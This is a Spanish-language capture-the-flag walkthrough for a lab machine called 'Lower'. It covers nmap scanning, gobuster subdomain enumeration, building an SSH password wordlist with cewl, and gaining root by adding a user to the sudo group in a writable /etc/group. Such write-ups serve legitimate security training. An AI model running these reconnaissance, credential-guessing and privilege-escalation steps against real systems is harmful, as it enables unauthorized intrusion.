

# Máquina Lower

### Reconocimiento de la Ip de la máquina víctima

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.140

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 vvv -Pn 192.168.42.140

agregamos al /etc/hosts el dominio unique.nyx

### Fuzing web

al intentar ingresar al unique.nyx no me sale nada de información entonces procedí a enumerar subdominios:

gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://unique.nyx --append-domain

entonces lo agregamos al /etc/hosts

ingresamos por url:

http://tech.unique.nyx/

### Explotación

Tomé los nombres de tom, kathren y lancer y los guardo como usernames.txt

luego genero un diccionario con la herramienta cewl con las palabras que hay en la web

cewl http://tech.unique.nyx/ --with-numbers -w pass.txt

Me conecté por ssh:

### user.txt

### Escalar privilegios

Ejecuté linpeas y me aparece que tengo permisos de escritura en /etc/group

entonces edité el archivo:

nano /etc/group

sudo:x:27:lancer

cerré sesión y volví a conectarme por ssh

hice id 

hice sudo su y escribí la contraseña de lancer

### root.txt

